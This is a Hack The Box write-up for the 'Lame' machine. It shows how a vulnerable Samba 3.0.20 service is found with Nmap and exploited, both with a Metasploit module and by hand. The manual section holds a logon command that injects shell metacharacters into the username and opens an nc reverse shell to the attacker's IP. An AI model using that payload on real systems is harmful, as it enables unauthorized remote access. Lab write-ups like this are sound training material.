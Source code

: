 ```yaml
---
layout: post
comments: true
section-type: post
title: HackTheBox Write-up - Lame
category: hackthebox
tags: [ 'samba' ]
---
```


**DIGEST**

An initial Nmap scan result will show us a vulnerable samba service which is running on port 139. It's vulnerable to the "Samba username map script" vulnerability and exploited using both Manual and Metasploit module.

![lame](../../../../img/htb/lame/lame.png)

<html>

<head>
    <style>
    b {
  font-weight: bold;
}
        table {
            font-family: arial, sans-serif;
            border-collapse: collapse;
            width: 100%;
        }

        td,
        th {
            border: 1px solid #050505;
            text-align: left;
            padding: 8px;
        }

        tr:nth-child(even) {
            background-color: #050505;
        }
    </style>
</head>

<body>
    <h2 class="text-center">Lame</h2>
    <p>
        <table>
            <tbody>
                <tr>
                    <td class="text-right">OS:</td>
                    <td>Linux</td>
                </tr>
                <tr>
                    <td class="text-right">Difficulty:</td>
                    <td> <span class="text-success bold">Easy</span></td>
                </tr>
                <tr>
                    <td class="text-right">Points:</td>
                    <td><span class="text-success">20</span></td>
                </tr>
                <tr>
                    <td class="text-right">Release:</td>
                    <td>14 Mar 2017</td>
                </tr>
                <tr>
                    <td class="text-right">IP:</td>
                    <td>10.10.10.3</td>
                </tr>
            </tbody>
        </table>
    </p>
</body>
</html>


**Tools Used:**

>Nmap, Searchsploit, Metsaploit


**Initial Scan with Nmap:**

![lame-nm](../../../../img/htb/lame/lame-nmap.png)

![lame-nmap](../../../../img/htb/lame/lame-nmap-result.png)

**Vulnerable Samba service on port 139:**

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

**Searchsploit:**

> $ searchsploit Samba 3.0.20

![Searchsploit](../../../../img/htb/lame/lame-sp.png)

**MSF Module - Samba "username map script" Command Execution:**

> $ msf> use exploit/multi/samba/usermap_script

![msf](../../../../img/htb/lame/lame-msf.png)

![shell](../../../../img/htb/lame/lame-msf2.png)

![root](../../../../img/htb/lame/lame-hash.png)

**Manual Exploitation:**

> logon “./=`nohup nc -e /bin/bash 10.10.14.18 4444`"

![Manual](../../../../img/htb/lame/lame-manual1.png)

![Manualroot](../../../../img/htb/lame/lame-manual2.png)

**Rate Matrix:**

![matrix](../../../../img/htb/lame/lame-matrix.png)

<h5><center>Thanks for reading ❤️! </center></h5>
<h5><center>Feel free to leave a comment 💬 below.</center></h5>
